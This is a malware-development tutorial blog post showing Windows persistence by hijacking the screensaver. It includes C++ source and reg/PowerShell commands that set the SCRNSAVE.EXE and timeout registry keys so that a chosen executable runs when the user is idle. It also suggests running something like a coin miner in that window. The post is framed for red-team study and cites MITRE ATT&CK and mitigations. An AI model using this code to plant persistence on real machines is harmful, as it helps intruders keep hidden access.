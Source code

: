 ```yaml
---
title:  "Malware development: persistence - part 2. Screensaver hijack. C++ example."
date:   2022-04-20 10:00:00 +0600
header:
  teaser: "/assets/images/52/2022-04-27_03-07.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![pers](/assets/images/52/2022-04-27_03-07.png){:class="img-responsive"}    

This post is a second part of a series of articles on windows malware persistence techniques and tricks.    

Today I'll wrote about the result of self-researching another persistence trick: Abusing screensavers.    

### screensavers

Screensavers are programs that execute after a configurable time of user inactivity. This feature of Windows it is known to be abused by threat actors as a method of persistence. Screensavers are PE-files with a `.scr` extension by default and settings are stored in the following registry keys:    

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveActive`    
![pers](/assets/images/52/2022-04-27_03-23.png){:class="img-responsive"}    

set to `1` to enable screensaver.

`HKEY_CURRENT_USER\Control Panel\Desktop\ScreenSaveTimeOut` - sets user inactivity timeout before screensaver is executed.    
`HKEY_CURRENT_USER\Control Panel\Desktop\SCRNSAVE.EXE` - set the app path to run.    

### practical example

Let's go to look at a practical example. Let's say we have a *"malware"* from [previous](/tutorial/2022/04/20/malware-pers-1.html) part `hack.cpp`:   

```cpp
/*
meow-meow messagebox
author: @cocomelonc
*/
#include <windows.h>

int WINAPI WinMain(HINSTANCE hInstance, HINSTANCE hPrevInstance, LPSTR lpCmdLine, int nCmdShow) {
  MessageBoxA(NULL, "Meow-meow!","=^..^=", MB_OK);
  return 0;
}
```

Let's go to compile it:   

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -mwindows -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-04.png){:class="img-responsive"}    

And save it to folder `Z:\\2022-04-26-malware-pers-2\`:    

![pers](/assets/images/52/2022-04-27_03-29.png){:class="img-responsive"}    

Then, let's create a script `pers.cpp` that creates registry keys that will execute our program `hack.exe` when user inactive `10` seconds:    

```cpp
/*
pers.cpp
windows low level persistense via screensaver
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/04/26/malware-pers-2.html
*/
#include <windows.h>
#include <string.h>

int reg_key_compare(HKEY hKeyRoot, char* lpSubKey, char* regVal, char* compare) {
  HKEY hKey = nullptr;
  LONG ret;
  char value[1024];
  DWORD size = sizeof(value);
  ret = RegOpenKeyExA(hKeyRoot, lpSubKey, 0, KEY_READ, &hKey);
  if (ret == ERROR_SUCCESS) {
    RegQueryValueExA(hKey, regVal, NULL, NULL, (LPBYTE)value, &size);
    if (ret == ERROR_SUCCESS) {
      if (strcmp(value, compare) == 0) {
        return TRUE;
      }
    }
  }
  return FALSE;
}

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  // malicious app
  const char* exe = "Z:\\2022-04-26-malware-pers-2\\hack.exe";
  // timeout
  const char* ts = "10";
  // activation
  const char* aact = "1";

  // startup
  LONG res = RegOpenKeyEx(HKEY_CURRENT_USER, (LPCSTR)"Control Panel\\Desktop", 0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveActive", 0, REG_SZ, (unsigned char*)aact, strlen(aact));
    RegSetValueEx(hkey, (LPCSTR)"ScreenSaveTimeOut", 0, REG_SZ, (unsigned char*)ts, strlen(ts));
    RegSetValueEx(hkey, (LPCSTR)"SCRNSAVE.EXE", 0, REG_SZ, (unsigned char*)exe, strlen(exe));
    RegCloseKey(hkey);
  }
  return 0;
}
```

As you can see, logic is simplest one. We just add new registry keys for timeout and app path. Registry keys can be added from the `cmd` terminal:    

```cmd
reg add "HKCU\Control Panel\Desktop" /v ScreenSaveTimeOut /d 10
reg add "HKCU\Control Panel\Desktop" /v SCRNSAVE.EXE /d Z:\2022-04-26-malware-pers-2\hack.exe
```

or `powershell` commands:

```powershell
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'ScreenSaveTimeOut' -Value '10'
New-ItemProperty -Path 'HKCU:\Control Panel\Desktop\' -Name 'SCRNSAVE.EXE' -Value 'Z:\2022-04-26-malware-pers-2\hack.exe'
```

but since I love to write code, I wanted to show how to do it with some lines of code.    

### demo

Let's compile our `pers.cpp` script:   

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/52/2022-04-27_02-06.png){:class="img-responsive"}    

Then, for the purity of experiment, first of all, check registry keys in the victim's machine and delete keys if exists:    

```powershell
reg query "HKCU\Control Panel\Desktop" /s
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
```

![pers](/assets/images/52/2022-04-27_03-43.png){:class="img-responsive"}    

![pers](/assets/images/52/2022-04-27_03-48.png){:class="img-responsive"}    

Then, run our `pers.exe` script and check again:   

```powershell
.\pers.exe
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-14.png){:class="img-responsive"}    

As you can see, new key added as expected.    
So now, check everything in action. Logout and login again and wait `10` seconds or just inactive `10` seconds:    

![pers](/assets/images/52/2022-04-27_04-13_1.png){:class="img-responsive"}    

Pwn! Everything is worked perfectly :)    

After the end of the experiment, delete the keys:    

```powershell
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'ScreenSaveTimeOut'
Remove-ItemProperty -Path "HKCU:\Control Panel\Desktop" -Name 'SCRNSAVE.EXE'
reg query "HKCU\Control Panel\Desktop" /s
```

![pers](/assets/images/52/2022-04-27_04-18.png){:class="img-responsive"}    

### conclusion

The problem with this persistence trick is that the session is terminated when the user comes back and the system is not idle. However, red teams can perform their operations (something like coin miner) during the user's absence. If screensavers are disabled by group policy, this method cannot be used for persistence. Also you can block `.scr` files from being executed from non-standard locations.   

[This trick in MITRE ATT&CK](https://attack.mitre.org/techniques/T1546/002/)    
[RegOpenKeyEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regopenkeyexa)    
[RegSetValueEx](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regsetvalueexa)    
[RegCloseKey](https://docs.microsoft.com/en-us/windows/win32/api/winreg/nf-winreg-regclosekey)    
[Remove-ItemProperty](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/remove-itemproperty?view=powershell-7.2)    
[reg query](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/reg-query)    
[source code in github](https://github.com/cocomelonc/2022-04-26-malware-pers-2)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
